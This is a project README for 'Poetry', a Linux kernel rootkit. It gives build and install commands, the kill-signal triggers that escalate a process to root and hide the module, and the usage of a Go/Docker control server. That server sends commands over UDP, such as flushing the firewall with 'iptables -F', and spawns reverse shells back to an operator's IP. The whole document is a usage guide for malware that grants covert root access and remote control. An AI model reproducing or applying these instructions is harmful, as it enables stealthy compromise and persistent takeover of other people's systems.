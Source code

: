 ![nil is goated](https://img.shields.io/badge/nil-goated-green)
# Poetry
This is a Linux kernel module rootkit made for >=5.X. It features privilege escalation, module hiding, and RCE/reverse shell capabilities. 

## Kernel Module
### Tested On:
- 5.4.0
- 5.13.0
### Building
```sh
# install needed packages
apt update
apt install build-essential \
            checkinstall \
            linux-headers-$(uname -r) \
            -y 

cd lkm/

# comment out the printk debug statements
sed -i 's/debug=1/debug=0/g' poet.c 

# compile the kernel module with the corresponding headers
make 
```
The compiled LKM will be: `poet.ko`
### Installing
```sh
# install the kernel module on the system
sudo insmod poet.ko 
```

#### Privilege Escalation + Module Hiding
```sh
kill -35 0 # escalate to root
kill -36 0 # hide poet module
kill -37 0 # unhide poet module
```

## Server Setup + Usage
To use the RCE section of the rootkit:
```
Usage of ./poetry:
  -c string
        Choice: Single command to run through UDP. No output.
  -r string
        Optional: Where to send the shell. Defaults to interface IP if not specified. 
  -s    Choice: Spawn and connect to reverse shell
  -t string
        Required: IP address to target
```

### Docker
The server can be compiled and run through Docker. 

```sh
cd srv/
docker build -t poetry .
docker run poetry # run without args to see usage

# you must specify the -r option here when using the reverse shell capability. This will be the IP of the machine running the docker container. 

# EXAMPLE 
docker run -itp 7337:7337 poetry -t 192.168.10.10 -r 192.168.10.9 -s

# EXAMPLE
docker run poetry -t 192.168.10.10 -c "iptables -F"
```
### Building Binaries
Secondary option.
#### If not on Linux:
Docker must be installed in order to statically compile the server binary. 
```sh
cd srv/
make # compile the go binary
ls out/ # compiled binary will be in the out/ directory
```
#### If on Linux:
```sh
cd srv/

# compile the server binary
go build
```

The compiled binary will be called: `poetry`

#### Binary Usage
Copy the compiled binary to the host system. Run the following commands to interact with the target:
```sh
export IFACE=<ethernet_interface> # set interface env var
sudo -E ./poetry -t <target_ip> -s # -s attempts to spawn a reverse tcp shell
sudo -E ./poetry -t <target_ip> -c "<command>" # -c sends a single command through udp. no output
```

